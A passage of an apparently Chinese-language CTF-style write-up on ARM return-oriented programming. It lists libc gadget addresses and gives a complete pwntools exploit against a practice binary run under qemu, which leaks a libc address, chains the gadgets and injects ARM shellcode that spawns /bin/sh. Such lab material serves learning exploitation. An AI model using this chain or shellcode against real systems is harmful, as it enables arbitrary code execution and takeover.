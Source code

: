 ### 烧脑链

之前在真实设备上调的时候，找的链比上面的复杂：

> 转移sp、增加sp、蹦到sp

```c
0x00041308: mov r0, sp; blx r2; 
0x0003f4f8: add r0, r0, #0x14; mov r1, r4; blx r5; 
0x00041304: mov r2, r0; mov r0, sp; blx r2; 
```

> 使用r4控制r2

```c
0x0000bc30: pop {r4, pc};
0x0000c11c: mov r2, r4; mov r0, r2; pop {r4, r5, r7, pc};
```

故使用的所有gadget如下，同控制流顺序：

```c
0x0000bc30: pop {r4, pc};
0x0003f4f8: add r0, r0, #0x14; mov r1, r4; blx r5;
0x0000c11c: mov r2, r4; mov r0, r2; pop {r4, r5, r7, pc};
0x00041304: mov r2, r0; mov r0, sp; blx r2;
0x00041308: mov r0, sp; blx r2;
```

拼接时如果是pop pc的控制流，则直接拼接即可。如果是跳转到寄存器的控制流，则将接下来的控制流在pop初始控制寄存器的位置拼接，最终方法如下：

![image](https://xuanxuanblingbling.github.io/assets/pic/rop/rop2.png)

```python
from pwn import *
context(arch='arm',os='linux',log_level='debug')
io = process(["qemu-arm","-L",".","./pwntest"])

shellcode  =  "\x02\x20\x42\xe0"  
shellcode  += "\x1c\x30\x8f\xe2" 
shellcode  += "\x04\x30\x8d\xe5" 
shellcode  += "\x08\x20\x8d\xe5" 
shellcode  += "\x13\x02\xa0\xe1" 
shellcode  += "\x07\x20\xc3\xe5" 
shellcode  += "\x04\x30\x8f\xe2" 
shellcode  += "\x04\x10\x8d\xe2" 
shellcode  += "\x01\x20\xc3\xe5" 
shellcode  += "\x0b\x0b\x90\xef" 
shellcode  += "/bin/sh"

io.recvuntil("gift: ")
libc = int(io.recv(),16) - 0x660c0

padding = 0x11111111
payload =  p32(libc + 0x0000bc30) # pop {r4, pc};
payload += p32(libc + 0x0003f4f8) # add r0, r0, #0x14; mov r1, r4; blx r5;   
payload += p32(libc + 0x0000c11c) # mov r2, r4; mov r0, r2; pop {r4, r5, r7, pc};
payload += p32(padding) 
payload += p32(libc + 0x00041304) # mov r2, r0; mov r0, sp; blx r2;
payload += p32(padding) 
payload += p32(libc + 0x00041308) # mov r0, sp; blx r2;
payload += p32(padding)*5
payload += shellcode

io.sendline('a'*36+payload)
io.interactive()
```
